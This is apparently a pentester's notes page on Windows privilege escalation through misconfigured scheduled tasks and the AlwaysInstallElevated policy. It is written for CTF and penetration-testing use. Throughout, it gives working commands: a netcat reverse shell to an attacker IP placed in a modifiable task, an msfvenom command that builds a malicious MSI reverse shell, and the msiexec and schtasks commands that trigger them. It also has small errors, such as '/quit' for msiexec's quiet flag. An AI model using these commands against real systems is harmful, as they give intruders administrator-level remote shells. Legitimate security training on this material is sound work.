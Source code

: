 # Quick Ws
Misconfigurations are our best friends as always, in this case the following may be more CTF related but may also prove useful in real pentests. 
## Scheduled Tasks
Looking into scheduled tasks on the target system, we may encounter one that either lost its binary or is using one that we can modify to our advantage.
These can be listed from the command line using the `schtasks` command without any options. To retrieve detailed information about any of the services we can use a command like the following:
```
schtasks /query /tn vulntask /fo list /v
```
With this we can get a lot of information about the task, but what matters most to us is the "Task to Run" parameter which indicates the obvious, as well as the "Run As User" parameter, which again, indicates what it says. If we can modify the task to run exec, we can then change it for a payload that may result in escalation. 

To check file permissions on the executable, we use `icacls`. With this we can look for the `(F)` parameter which indicates full access as long as our user belongs to the corresponding group. `(M)` indicates modify. `(R)` Read. `(X)` Execute.

If yes, then we can proceed with our payload, this could be either executing an application to which the "run as user" has access to, or more directly creating a reverse shell (which needs the user to be able to run it, so worth checking that out first). As usual we can refer to [S(kull)hells](https://www.revshells.com) for quick reverse/bind shells. but using for example nc64 (netcat for windows) a quick payload could be:
```
c:\path\nc64.exe AtacckerIP PORT -e cmd.exe
```
Finally we need to wait for the next time the scheduled task runs, then we should receive the reverse shell. Normally (if well configured) we a random user shouldn't be able to trigger the task whenever, but if for some reason our user has that luck we could ran it manually with:
```
schtasks /run /tn vulntask
```

## Always Install Elevated
Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account. We could take advantage of this to generate a malicious MSI file that would run with admin privileges.

This method requires two registry values to be set.  We can query these from the command line using the commands below
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer 
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
To be able to exploit this vulnerability, both should be set. If they are, we can generate a malicious .msi file using [[Metasploit#Msfvenom|Msfvenom]], as seen below:
```Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```
As this is a reverse shell we should preferably run the [[Metasploit]] handlser module configured accordingly. Once we have transferred the file we have created, we can run the installer with the command below and receive the reverse shell:
```
msiexec /quit /qn /i C:\Windows\Temp\malicious.msi
```
